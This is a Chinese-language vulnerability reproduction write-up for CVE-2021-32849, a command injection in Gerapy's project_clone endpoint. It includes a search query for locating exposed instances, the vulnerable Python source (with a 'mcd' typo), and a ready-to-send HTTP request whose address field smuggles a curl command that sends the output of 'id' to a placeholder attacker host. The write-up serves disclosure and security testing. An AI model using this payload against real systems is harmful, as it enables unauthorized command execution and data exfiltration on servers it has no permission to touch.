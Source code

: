 # 

# Gerapy clone 后台远程命令执行漏洞 CVE-2021-32849

## 漏洞描述

近日，我司应急团队监测到关于Gerapy 0.9.6和之前的版本中存在注入漏洞，漏洞编号：CVE-2021-32849，该漏洞源于程序没有正确清理通过project_clone端点传递给Popen的输入，攻击者可利用该漏洞执行任意命令。

## 漏洞影响

```
Gerapy <= 0.9.6
```

## 网络测绘

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145040847](./images/202205241450895.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](./images/202205241450608.png)

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', mcd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

这里可以看到 address参数 为可控参数，拼接到 cmd中使用 Popen命令执行，构造请求包

```
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl xxx.xxx.xxx.xxx:9999?`id`"}
```

![](./images/202205241451576.png)
